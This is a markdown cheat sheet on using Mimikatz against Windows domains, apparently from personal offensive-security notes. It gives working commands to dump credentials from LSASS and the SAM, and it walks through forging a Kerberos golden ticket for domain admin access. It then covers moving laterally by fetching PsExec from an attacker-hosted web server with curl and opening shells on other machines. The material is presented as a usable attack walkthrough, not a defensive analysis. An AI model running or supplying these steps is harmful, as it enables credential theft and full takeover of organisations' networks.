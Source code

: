 # [Mimikatz](https://www.varonis.com/blog/what-is-mimikatz/)

 - [Latest executable version](https://github.com/gentilkiwi/mimikatz/releases)
 
 - [Unofficail command reference and guide](https://adsecurity.org/?page_id=1821)
 
 - [Offical Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

Mimikatz is an open-source application that allows users to view and save authentication credentials 


    Pass-the-Hash: Windows used to store password data in an NTLM hash. Attackers use Mimikatz to pass that exact hash string to the target computer to login. Attackers don’t even need to crack the password, they just need to use the hash string as is. It’s the equivalent of finding the master key to a building on the floor. You need that one key to get into all the doors.
    
    Pass-the-Ticket: Newer versions of windows store password data in a construct called a ticket.  Mimikatz provides functionality for a user to pass a kerberos ticket to another computer and login with that user’s ticket. It’s basically the same as pass-the-hash otherwise.
    
    Over-Pass the Hash (Pass the Key): Yet another flavor of the pass-the-hash, but this technique passes a unique key to impersonate a user you can obtain from a domain controller.
    
    Kerberos Golden Ticket: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A golden ticket gives you domain admin credentials to any computer on the network that doesn’t expire.
    
    Kerberos Silver Ticket: Another pass-the-ticket, but a silver ticket takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a TGS ticket, and a user can use that ticket to log into any services on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip it past any safeguards.
    
    Pass-the-Cache: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.


    privilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection
   
    log nameoflog.log
    
  To log what we do.
   
   The sekursla module in Mimikatz lets you dump passwords from memory. To use the commands in the sekurlsa module, you must have Admin or SYSTEM permissions.

    sekurlsa::logonpassword

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

[Note on what LSA (lsass.exe) is](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)

lsadump::sam /patch

lsadump::lsa /patch


# Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lsa /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$
         
   - Upload [psexec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   ) to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      
